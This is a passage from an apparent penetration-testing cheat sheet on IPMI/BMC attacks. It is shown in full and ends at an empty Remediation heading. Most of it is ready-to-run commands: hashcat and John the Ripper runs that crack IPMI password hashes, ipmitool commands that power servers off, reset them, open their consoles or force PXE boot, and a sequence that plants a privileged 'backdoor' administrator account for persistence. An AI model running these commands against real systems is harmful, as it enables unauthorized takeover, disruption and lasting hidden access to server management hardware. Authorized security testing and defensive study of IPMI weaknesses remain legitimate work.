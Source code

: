 ## Hash Cracking Techniques

### Hashcat IPMI Mode
```bash
# IPMI hash format (mode 7300)
hashcat -m 7300 -a 0 hash.txt wordlist.txt

# Example hash:
# admin:8140000089eb9c5f41b4e0632b85f1e1e6e9a7b0:f2b4f8c7b4c4b4c4:2:admin:admin

# Optimized cracking
hashcat -m 7300 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --force
```

### John the Ripper
```bash
# Convert hash format if needed
john --format=ipmi hash.txt

# Crack with wordlist
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

## Post-Exploitation

### System Control
```bash
# Power management
ipmitool -I lanplus -H target -U admin -P pass power on
ipmitool -I lanplus -H target -U admin -P pass power off
ipmitool -I lanplus -H target -U admin -P pass power reset

# Console access
ipmitool -I lanplus -H target -U admin -P pass sol activate

# Boot device selection
ipmitool -I lanplus -H target -U admin -P pass chassis bootdev pxe
```

### Persistence
```bash
# Create new user account
ipmitool -I lanplus -H target -U admin -P pass user set name 3 backdoor
ipmitool -I lanplus -H target -U admin -P pass user set password 3 backdoor_pass
ipmitool -I lanplus -H target -U admin -P pass user priv 3 4
ipmitool -I lanplus -H target -U admin -P pass user enable 3
```

## Remediation
